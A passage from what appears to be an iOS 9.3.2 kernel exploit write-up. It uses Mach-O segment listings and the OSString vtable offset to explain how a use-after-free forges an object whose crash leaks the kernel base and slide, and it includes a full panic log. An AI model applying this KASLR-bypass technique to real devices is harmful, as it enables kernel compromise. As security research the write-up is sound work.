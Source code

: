             Mem: 0x8039acc0-0x803b0c8c      File: 0x00399cc0-0x003afc8c         __TEXT.__const
            Mem: 0x803b0c8c-0x803ed894      File: 0x003afc8c-0x003ec894         __TEXT.__cstring        (C-String Literals)
    LC 01: LC_SEGMENT               Mem: 0x803ee000-0x80464000      File: 0x3ed000-0x419000 rw-/rw- __DATA
            Mem: 0x803ee000-0x803ee0ec      File: 0x003ed000-0x003ed0ec         __DATA.__nl_symbol_ptr
            Mem: 0x803ee0ec-0x803ee1f4      File: 0x003ed0ec-0x003ed1f4         __DATA.__mod_init_func  (Module Init Function Ptrs)
            Mem: 0x803ee1f4-0x803ee2f8      File: 0x003ed1f4-0x003ed2f8         __DATA.__mod_term_func  (Module Termination Function Ptrs)
            Mem: 0x803ef000-0x803fe790      File: 0x003ee000-0x003fd790         __DATA.__const
    $ nm iPhone5,4/kernel | grep __ZTV8OSString
    803f4e8c S __ZTV8OSString

As we can see, `__DATA.__const` has different offsets, depending on the device, and so does the `OSString` vtable.  
However, if we subtract the former from the latter: `0x803ece8c - 0x803e7000 = 0x803f4e8c - 0x803ef000 = 0x5e8c`. It turns out that the vtable's offset from `__DATA.__const` is the same for both. Could it be the same for the iPod5,1 as well?

First we need to learn the base address of `__DATA.__const`. That address is stored in the kernel's mach header at offset `0x244`. Since the data segment is non-executable, branching to that location will cause a panic.  
Thus we use the UaF to construct an `OSString` whose vtable pointer points to 4 machine words before offset `0x244`, i.e. `kernel_base + kernel_slide + 0x224`, so that a call to `retain()` will give us:

    Incident Identifier: 0E7ED4DF-23F4-4669-A772-8B46A8D04BF2
    CrashReporter Key:   b25fc727e5bd42cc472643168319ec8bb9b18dec
    Hardware Model:      iPod5,1
    Date/Time:           2016-12-17 23:42:38.38 +0100
    OS Version:          iOS 9.3.2 (13F69)

    panic(cpu 0 caller 0x<ptr>): sleh_abort: prefetch abort in kernel mode: fault_addr=0x857e7000
    r0:   0x96961a40  r1: 0x857e7000  r2: 0x8c000001  r3: 0x00000001
    r4:   0x8b07d7f0  r5: 0x00000001  r6: 0x00000034  r7: 0x800abd34
    r8:   0x96961a40  r9: 0x00000034 r10: 0x80004034 r11: 0x00000001
    r12:  0x85793043  sp: 0x800abcb4  lr: 0x8571eb69  pc: 0x857e7000
    cpsr: 0x80000013 fsr: 0x0000000f far: 0x857e7000

    Debugger message: panic
    OS version: 13F69
    Kernel version: Darwin Kernel Version 15.5.0: Mon Apr 18 16:44:05 PDT 2016; root:xnu-3248.50.21~4/RELEASE_ARM_S5L8942X
    Paniclog version: 3
    Kernel slide:     0x0000000005400000
    Kernel text base: 0x85401000
      Boot    : 0x5855be8a 0x00000000
      Sleep   : 0x00000000 0x00000000
      Wake    : 0x00000000 0x00000000
      Calendar: 0x5855bf22 0x0009c5b9

    Panicked task 0xc65784c8: 926 pages, 8 threads: pid 164: v3tta
    panicked thread: 0xc67478b0, backtrace: 0x800aba00
            0x854c9b63
            0x854c9e39
            0x85420f63
            0x854ccc79
            0x854c6660
            0x8576fa7d
            0x854ab1c9
            0x85410c61
            0x8541be69
            0x854c62fc
